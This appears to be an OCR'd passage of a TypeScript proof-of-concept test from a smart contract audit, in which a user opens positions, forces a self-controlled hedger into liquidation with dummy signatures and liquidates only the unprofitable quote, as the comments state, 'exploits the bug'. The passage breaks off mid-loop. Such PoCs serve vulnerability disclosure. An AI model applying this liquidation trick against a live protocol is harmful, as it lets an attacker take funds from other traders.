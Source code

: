 ```ts
  await this.user.sendQuote(limitQuoteRequestBuilder()
    .quantity(decimal(190))
    .price(decimal(10))
    .cva(decimal(10)).lf(decimal(5)).mm(decimal(10))
    .build()
  );
  await this.hedger2.lockQuote(2, 0, decimal(2, 16));
  await this.hedger2.openPosition(2, limitOpenRequestBuilder().filledAmount(decimal(90)).openPrice(decimal(10)).price(decimal(10)).build());

  await this.user.sendQuote(limitQuoteRequestBuilder()
    .positionType(PositionType.SHORT)
    .quantity(decimal(200))
    .price(decimal(10))
    .cva(decimal(10)).lf(decimal(5)).mm(decimal(10))
    .build()
  );
  await this.hedger2.lockQuote(3, 0, decimal(2, 16));
  await this.hedger2.openPosition(3, limitOpenRequestBuilder().filledAmount(decimal(100)).openPrice(decimal(10)).price(decimal(10)).build());

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  var info = await this.hedger2.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // price goes to 5, so user is in a loss of -500, a slight profit of +50 from short position, but controlled hedger is in a -50 loss and 
  // becomes liquidatable
  // user now exploits the bug by liquidating controlled hedger
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummySingleUpnlSig(decimal(-50)),
  );

  // liquidate only quote 2 (which is not profitable for the user)
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummyQuotesPriceSig([2], [5]),
  )

  var liquidated = await context.viewFacet.isPartyBLiquidated(this.hedger2.signer.address, this.user.signer.address);
  console.log("PartyB Liquidated: " + liquidated);

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  var posCount = await this.context.viewFacet.partyAPositionsCount(this.user.getAddress());
  console.log("PartyA positions count: " + posCount);
  var openPositions = await this.context.viewFacet.getPartyAOpenPositions(
    this.user.getAddress(),
    0,
    posCount,
  );

  for (const pos of openPositions) {
```